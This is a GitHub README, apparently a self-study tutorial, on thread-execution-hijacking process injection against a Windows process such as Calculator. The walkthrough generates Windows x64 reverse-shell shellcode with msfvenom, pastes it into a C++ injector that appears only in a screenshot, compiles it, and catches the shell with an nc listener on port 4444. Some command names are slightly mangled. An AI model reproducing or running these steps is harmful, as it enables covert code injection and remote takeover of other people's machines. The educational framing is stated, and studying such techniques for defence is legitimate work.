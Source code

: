 # SimpleTAI

writing these materials for myself and for educational purposes .i will write long explanetion about every line of code for better understanding ..


so what is thread access injection ? 

Thread execution hijacking is a method used to control a running thread in a process. It starts by opening access to a process , the process i demonsrate be claculator .. , then allocating memory within the process, writing malicious code (payload) into the allocated memory, creating a new thread in the process and run it with the malicious code. This will cause the code to take control of the thread.

we test the script by create a vm in my case is kali linux . 

in the console we type the command below

```
ifconfig
```
then take the vm ip we want to use has a "hacker" machine

```
eth: flags=8908<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 2938
	options=3<RXCSUM,TXCSUM>
	ether xx:xx:xx:xx:xx:xx 
	inet xx.xx.xxx.xx netmask 0xfff0 broadcast xx.xx.xx.xx
```

i choose to use this exploit for the reverseshell , of course you can choose any 

```
msfvenom -p windows/×64/shell_reverse_tc LHOST=xx.xx.xxx.xx LPORT=4444 -f c
```
then we have the shell code 

and we will insert it to ``` shellcode[] = {`here`}```

![Screenshot 2023-01-24 at 10 50 42](https://user-images.githubusercontent.com/122444563/214353717-a4f88edd-6681-48d0-bb67-f75a74b88bd6.png)


once we have the script has it shown in screenshot above 
we will change the filemode for .exe 

```cl /Tc <filename>.cpp```

change back to the vm and listen to the port we specify 
```nc -nlvp 4444```

Execute the program and our "hacker station" and we are in

<img width="552" alt="Screenshot 2023-01-24 at 13 58 20" src="https://user-images.githubusercontent.com/122444563/214379873-a32fb0de-24e1-4a36-a9fe-b880ea83f9e0.png">



